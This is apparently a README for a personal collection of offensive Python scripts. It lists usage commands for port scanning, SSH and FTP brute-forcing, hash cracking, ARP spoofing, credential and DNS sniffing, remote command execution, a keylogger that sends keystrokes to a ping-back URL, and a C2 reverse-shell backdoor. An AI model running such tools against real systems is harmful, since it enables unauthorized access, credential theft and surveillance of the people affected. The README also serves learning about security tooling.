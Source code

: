 # A collection of my custom Python Scripts

Everything seems pretty self explanatory. There scripts are standalone, so duplicates of code are unavoidable.

Some extra packages may need to be installed in order for these to work.

There are more sophisticated tools out there that can perform the same functionalities or even better but coding custom tools is always a good mental exercise. You can also get an idea of how these tools, you might be using, work.

**Working with Python >= 3 version**

## Port Scanner

Usage examples:

`python3 portscan.py --host 192.168.1.1 --port 80`

*To specify multiple ports*

`python3 portscan.py --host 192.168.1.1 --port 21,22,25,80`

*To specify a range of ports*

`python3 portscan.py --host 192.168.1.1 --port 1-1000`

*Returns a table of results similar to the nmap.*

## SSH Bruteforcer

Usage examples:

`python3 sshbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt`

*To specify another SSH service port*

`python3 sshbrute.py --host 192.168.1.1 --port 22 --usr usersfile.txt --pwd passfile.txt`

*To reset your session before bruteforce*

`python3 sshbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt --rst`

*Returns a successful user:pass combination.*

## FTP Bruteforcer

Usage examples:

`python3 ftpbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt`

*To specify another FTP service port*

`python3 ftpbrute.py --host 192.168.1.1 --port 21 --usr usersfile.txt --pwd passfile.txt`

*To try anonymous login too on top of wordlist bruteforce*

`python3 ftpbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt --anon`

*To reset your session before bruteforce*

`python3 ftpbrute.py --host 192.168.1.1 --usr usersfile.txt --pwd passfile.txt --rst`

*Returns a successful user:pass combination.*

## Hash Cracker

**Available methods md5, sha1, sha256, sha512**

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5 --list userlist.txt`

*Returns a successful plaintext string if cracked*

## Hash Bruteforcer

**Available methods md5, sha1, sha256, sha512**

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5`

*Specify a minimum or maximum length for bruteforcing*

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5 --minlength 4 --maxlength 8`

*Specify a custom character set for bruteforcing*

`python3 hashcracker.py --hash 21232f297a57a5a743894a0e4a801fc3 --method md5 --minlength 4 --maxlength 8 --chars ABCDabcd1234!@#`

*Returns a successful plaintext string if cracked*

## Mac Changer

*Display your current MAC Address*

`python3 macchanger.py`

`python3 macchanger.py -c`

*Specify an interface*

`python3 macchanger.py -c -i eth0`

*Generate a Random MAC Address on a specified interface (optional)*

`python3 macchanger.py -r -i eth0`

*Manually set a MAC Address on a specified interface (optional)*

`python3 macchanger.py -n 00:11:22:33:44:55 -i eth0`

## ARP Spoofer

*Spoof your target IP with your source IP*

`python3 arpspoofer.py --dst 192.168.1.2 --src 192.168.1.5`

### Remote Execute

*Executes specified commands remotely to specified hosts*

`python3 remote_execute.py -i test.com -c whoami -u root`

`python3 remote_execute.py -i hosts.txt -c cmds.txt -u www-data`

### MAC Sniff

*Sniff traffic and revolve source and destination MAC addresses from packets*

`python3 macsniff.py`

### Credential Sniff

*Sniff plaintext credentials on a specified interface, protocol and port for simple protocols*

*This works for HTTP too but you might have some increased output due to headers such as User-Agent* 

`python3 credsniff.py -p 21`

`python3 credsniff.py -i eth0 -p 21 -t tcp`

### HTTP Credential Sniff

*Sniff plaintext credentials on a specified interface for HTTP requests only*

`python3 credsniff_http.py -i eth0`

### DNS Sniff

*Sniff all DNS queries performed on the specified interface*

`python3 dns_sniff.py -i eth0`

### Keylogger

*Capture keystrokes and send them to a ping back URL. You need to specify the URL inside the script.*

`python3 keylogger.py`

### C2

The c2 directory contains a POC backdoor example using a server and a reverse shell. You can modify the server + reverse shell port port according to your needs or by passing arguments. \
You can execute commands as you would do in an msf shell for example.
Additionally you can `download`, `upload`, `cd` to any directory and `exit` the shell.

Usage example: \
**Server** \
`python3 srv.py -p 8080 -i 0.0.0.0`

**Reverse Shell** \
`python3 rev_shell.py -p 8080 -i 0.0.0.0`

